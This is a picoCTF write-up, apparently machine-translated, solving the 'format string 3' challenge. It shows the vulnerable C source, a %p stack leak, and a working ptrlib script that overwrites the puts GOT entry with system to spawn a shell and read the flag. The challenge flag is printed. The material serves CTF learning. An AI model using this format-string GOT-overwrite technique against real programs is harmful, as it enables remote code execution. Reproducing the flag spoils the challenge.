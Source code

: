 # format string 3:Binary Exploitation:300pts
This program doesn't contain a win function. How can you win?  
Download the binary [here](format-string-3).  
Download the source [here](format-string-3.c).  
Download libc [here](libc.so.6), download the interpreter [here](ld-linux-x86-64.so.2). Run the binary with these two files present in the same directory.  
Connect with the challenge instance here:  
`nc rhea.picoctf.net 61616`  

Hints  
Is there any way to change what a function points to?  

# Solution
The binaries running in various servers, the source and the connection destination are passed.  
```bash
$ nc rhea.picoctf.net 61616
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f51e40233f0
satoki,%p
satoki,0x7f51e4181963
/bin/sh
```
When connected, the libc address of 'setvbuf' is passed for some reason, the input is echoed back, and finally '/bin/sh' is displayed.  
Of course, there seems to be an FSB. The source was as follows. 
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
```
The last '/bin/sh' seems to be 'puts'. 
Based on the libc leak, this mystery feature, and the 'hello' function, it seems to be a problem with FSB rewriting 'puts' got to 'system'.  
```bash
$ checksec --file=./format-string-3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   RW-RUNPATH   44 Symbols        No    0               2               ./format-string-3
```
After all, it is a Partial RELRO.  
[format string 2] (.. /format_string_2) and use the FSB function of ptrlib. 
```bash
$ nc rhea.picoctf.net 61616
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f8ceecf83f0
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
0x7f8ceee56963,0xfbad208b,0x7ffccc8dd4f0,0x1,(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,
/bin/sh
```
Specify the 38th.  
```python
from ptrlib import *

libc = ELF("./libc.so.6")
elf = ELF("./format-string-3")
# sock = Process("./format-string-3")
sock = Socket("nc rhea.picoctf.net 61616")

sock.recvuntil("libc: ")
leak = int(sock.recvline(), 16)
libc.base = leak - libc.symbol("setvbuf")

payload = fsb(38, {elf.got("puts"): libc.symbol("system")}, bits=64)
sock.sendline(payload)

sock.sh()
```
Execute.  
```bash
$ python fsb3.py
[+] __init__: Successfully connected to rhea.picoctf.net:61616
[+] base: New base address: 0x7fa99c832000
~~~
[ptrlib]$ ls
[ptrlib]$ Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
cat flag.txt
[ptrlib]$ picoCTF{G07_G07?_92325514}
```
The shell can be removed, so when I read the flag.txt, the flag was written.
## picoCTF{G07_G07?_92325514}